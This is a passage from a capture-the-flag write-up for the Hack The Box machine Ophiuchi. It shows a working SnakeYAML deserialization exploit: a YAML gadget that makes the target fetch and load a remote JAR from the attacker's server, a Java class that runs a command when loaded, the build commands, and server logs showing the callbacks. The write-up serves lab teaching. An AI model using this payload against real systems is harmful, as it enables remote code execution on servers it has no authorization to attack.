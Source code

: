     oxdf@parrot$ sudo python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.227 - - [14/Feb/2021 16:33:34] code 404, message File not found
    10.10.10.227 - - [14/Feb/2021 16:33:34] "HEAD /META-INF/services/javax.script.ScriptEngineFactory HTTP/1.1" 404 -
    

This means the POC worked.

### RCE POC

The blog post now writes some Java code which it compiles into a file, and generates a folder structure for this request. I had a bit of a struggle getting that to work. I created the file and the compiled Class file. Ophiuchi would read that and then request the class file, but then it would crash the page and not show any evidence of executing my code.`.class``/META-INF/services/javax.script.ScriptEngineFactory`

Some Googling led to [this marshalsec repo](https://github.com/mbechler/marshalsec) for all kinds of Java-based deserialization attacks, and then the [yaml-payload](https://github.com/artsploit/yaml-payload) repo, which focuses on this specific SnakeYAML deserialization attack. The payload looks exactly the same, but they put it into a JAR for loading. The YAML part now tries to load a JAR file instead of a URL path:

    !!javax.script.ScriptEngineManager [
      !!java.net.URLClassLoader [[
        !!java.net.URL ["http://artsploit.com/yaml-payload.jar"]
      ]]
    ]
    

Sending that now just requests the single file, and not the path:`META-INF`

    10.10.10.227 - - [15/Feb/2021 06:52:56] code 404, message File not found
    10.10.10.227 - - [15/Feb/2021 06:52:56] "GET /yaml-payload.jar HTTP/1.1" 404 -
    

I’ll clone the [yaml-payload repo](https://github.com/artsploit/yaml-payload) to my VM and copy the folder into my folder for this box:`src`

    oxdf@parrot$ cp -r src/ ~/hackthebox/ophiuchi-10.10.10.227/
    

I’ll change to file to include a to my VM:`src/artsploit/AwesomeScriptEngineFactory``ping`

     10     public AwesomeScriptEngineFactory() {
     11         try {
     12             Runtime.getRuntime().exec("ping -c 1 10.10.14.7");
     13         } catch (IOException e) {
     14             e.printStackTrace();
     15         }
     16     }
    

Now compile that code, and then put it into a JAR:

    oxdf@parrot$ javac src/artsploit/AwesomeScriptEngineFactory.java 
    oxdf@parrot$ jar -cvf ping.jar -C src/ .
    added manifest
    adding: artsploit/(in = 0) (out= 0)(stored 0%)
    adding: artsploit/AwesomeScriptEngineFactory.class(in = 1607) (out= 668)(deflated 58%)
    adding: artsploit/AwesomeScriptEngineFactory.java(in = 1480) (out= 392)(deflated 73%)
    ignoring entry META-INF/
    adding: META-INF/services/(in = 0) (out= 0)(stored 0%)
    adding: META-INF/services/javax.script.ScriptEngineFactory(in = 36) (out= 38)(deflated -5%)
    
